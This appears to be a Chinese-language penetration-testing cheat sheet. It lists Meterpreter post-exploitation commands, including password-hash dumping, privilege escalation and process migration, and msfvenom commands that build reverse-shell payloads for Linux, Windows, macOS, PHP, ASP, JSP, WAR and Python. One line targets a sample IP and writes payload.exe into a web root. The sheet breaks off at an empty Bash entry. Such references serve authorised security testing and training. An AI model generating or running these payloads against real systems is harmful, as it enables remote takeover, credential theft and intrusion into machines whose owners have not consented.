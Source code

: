 

#### Meterpreter命令：
```bash
getuid    # 查看用户名，从而查看当前会话具有的权限
sysinfo    # 列出主机信息
getprivs    # 尽可能多地获取目标主机上的特权
getystem    # 通过各种攻击向量来提升到系统用户权限
hashdump    # 导出目标主机中的口令哈希值
screenshot    # 屏幕截图
background    # 将当前的meterpreter shell转为后台执行
quit    # 关闭当前meterpreter会话，回到msf终端

ps    # 显示所有运行进程
migrate PID    # 迁移到制定的进程PID
execute -f cmd.exe -i  # 执行cmd.exe命令并进行交互
shell    # 以所有可用令牌来进行一个交互的shell
```


#### msfvenom基础
```bash
# 参考：msf下的各种生成payload命令  http://www.cnblogs.com/backlion/p/6000544.html
### 二进制
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

# Windows 生成exe程序
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.105 lport=4444 -f exe -o /var/www/html/payload.exe

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho


### Web Payloads
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war


### Scripting Payloads
# Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

# Bash
```